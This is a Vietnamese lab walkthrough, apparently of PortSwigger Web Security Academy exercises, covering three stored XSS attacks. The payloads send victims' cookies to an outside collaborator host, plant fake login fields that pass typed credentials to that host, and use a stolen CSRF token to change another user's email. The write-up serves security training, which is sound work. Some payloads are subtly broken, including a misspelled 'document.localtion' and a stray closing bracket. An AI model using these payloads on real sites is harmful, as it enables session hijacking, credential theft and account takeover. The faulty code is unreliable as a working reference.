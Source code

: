 ### Bài 14: Exploiting cross-site scripting to steal cookies
>![](https://i.imgur.com/F31uADv.png)

Bài lab chứa lỗ hổng `stored XSS` trong chức năng comment. Khai thác và lấy cookie của người dùng khác, sau đó giả mao họ.

Sử dụng payload sau để tự động điều hướng người dùng tới webhook của ta và lấy cookie trong tham số `c`

```javascript=
<script>document.localtion="https://266fcuwj80b7bf1qzalb0babx23srh.oastify.com/?c="+document.cookie </script>
```

>![](https://i.imgur.com/UzmlYIZ.png)

<hr>

### Bài 15: Exploiting cross-site scripting to capture passwords

>![](https://i.imgur.com/z2qF6SH.png)

Bài lab chứa lỗ hổng `stored XSS` trong chức năng comment. Tìm cách khai thác lấy user credential của người khác và login.

User sẽ nhập username và pasword vào các input ảo của ta (giống CSRF). Và nó sẽ được gửi đến server của ta.

Payload để tạo ra 2 input ảo để user nhập vào và gửi tới webhook của ta:

```htmlembedded
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('https://c1ey6mut4zi765wstt79iet25tbpze.oastify.com/?c='+username.value+':'+this.value
});">
```

Kết quả:

>![](https://i.imgur.com/4cjwfz3.png)

<hr>

### Bài 16: Exploiting XSS to perform CSRF
>![](https://i.imgur.com/oxBcg4W.png)

Bài lab chứa lỗ hổng `stored XSS`, tìm cách kết hợp với CSRF để thay đổi email của user khác.


Ta sẽ điều hướng user tới trang `/my-account` sau đó lấy `csrf token` và tạo 1 post request gửi nó đi (tới `/my-account/change-email`) cùng với email mà ta muốn đổi thành.

Payload như sau.

```javascript=
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://0a0200a204dda6fec36992d6009f004d.web-security-academy.net/my-account')
xhr.send()
xhr.onload = function() {
    var csrf =  this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', 'https://0a0200a204dda6fec36992d6009f004d.web-security-academy.net/my-account/change-email')
    changeReq.send('csrf='+csrf+'&email=abc@gmail.com')
};
</script>
```
